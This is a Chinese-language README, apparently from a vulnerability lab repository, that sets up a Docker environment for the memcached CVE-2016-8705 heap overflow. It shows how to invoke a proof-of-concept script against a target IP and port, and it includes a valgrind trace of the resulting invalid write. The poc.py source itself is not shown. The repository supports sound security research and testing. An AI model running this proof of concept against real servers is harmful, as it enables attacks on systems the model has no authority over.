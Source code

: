 ## Memcached Server UPDATE 远程代码执行漏洞(CVE-2016-8705)环境

### 说明

 感谢 [@xing-xiao](https://github.com/xing-xiao) 提供原始环境。 #6

### 漏洞信息

 * [CVE-2106-8705漏洞信息](http://www.talosintelligence.com/reports/TALOS-2016-0220/)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:m_memcached_CVE-2016-8705
 ```

2. 启动环境

 ```
$ docker run -d -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8705
 ```

 > 如果需要追溯堆栈，需在启动时 valgrind 调试 memcached，则启动环境命令如下：

 ```
$ docker run -i -t -u root -p 11211:11211 medicean/vulapps:m_memcached_CVE-2016-8705 /valgrind.sh
 ```
 
### 使用国内阿里云镜像

1. 拉取镜像到本地

 ```
$ docker pull registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

2. 启动环境

 ```
$ docker run -d -p 11211:11211 registry.cn-hangzhou.aliyuncs.com/lo0o/memcached:1.4.32
 ```

### PoC

1. 获取目标 IP 地址与端口号，如：192.168.100.2 端口号为 11211

2. 执行 poc.py

```
$ python poc.py 192.168.100.2 11211
```

3. 查看追溯堆栈结果

```
36: Client using the binary protocol
<36 Read binary protocol data:
<36    0x80 0x02 0x00 0xfa
<36    0x08 0x00 0x00 0x00
<36    0xff 0xff 0xff 0xd0
<36    0x00 0x00 0x00 0x00
<36    0x00 0x00 0x00 0x00
<36    0x00 0x00 0x00 0x00
36: going from conn_parse_cmd to conn_nread
<36 ADD AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA Value len is -306
==8== Thread 3:
==8== Invalid write of size 8
==8==    at 0x4C326CB: memcpy@@GLIBC_2.14 (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x4132C8: memcpy (string3.h:53)
==8==    by 0x4132C8: do_item_alloc (items.c:238)
==8==    by 0x40A15A: process_bin_update (memcached.c:2222)
==8==    by 0x40A15A: complete_nread_binary (memcached.c:2427)
==8==    by 0x40A15A: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==  Address 0x5d1ae90 is 0 bytes after a block of size 1,048,512 alloc'd
==8==    at 0x4C2DB8F: malloc (in /usr/lib/valgrind/vgpreload_memcheck-amd64-linux.so)
==8==    by 0x40F9DF: memory_allocate (slabs.c:538)
==8==    by 0x40F9DF: do_slabs_newslab (slabs.c:233)
==8==    by 0x40FA6E: do_slabs_alloc (slabs.c:328)
==8==    by 0x41007E: slabs_alloc (slabs.c:584)
==8==    by 0x4131E6: do_item_alloc (items.c:180)
==8==    by 0x40A15A: process_bin_update (memcached.c:2222)
==8==    by 0x40A15A: complete_nread_binary (memcached.c:2427)
==8==    by 0x40A15A: complete_nread (memcached.c:2484)
==8==    by 0x40D367: drive_machine (memcached.c:4656)
==8==    by 0x4E47A0B: event_base_loop (in /usr/lib/x86_64-linux-gnu/libevent-2.0.so.5.1.9)
==8==    by 0x414874: worker_libevent (thread.c:380)
==8==    by 0x52A26B9: start_thread (pthread_create.c:333)
==8==
```

> 注意：
>
> 该 PoC 并不会造成服务端崩溃。

### Exp

> 暂无命令执行 Exp，如果你愿意分享该 Exp 可向本仓库发起 [Pull Request](https://github.com/Medicean/VulApps/compare)
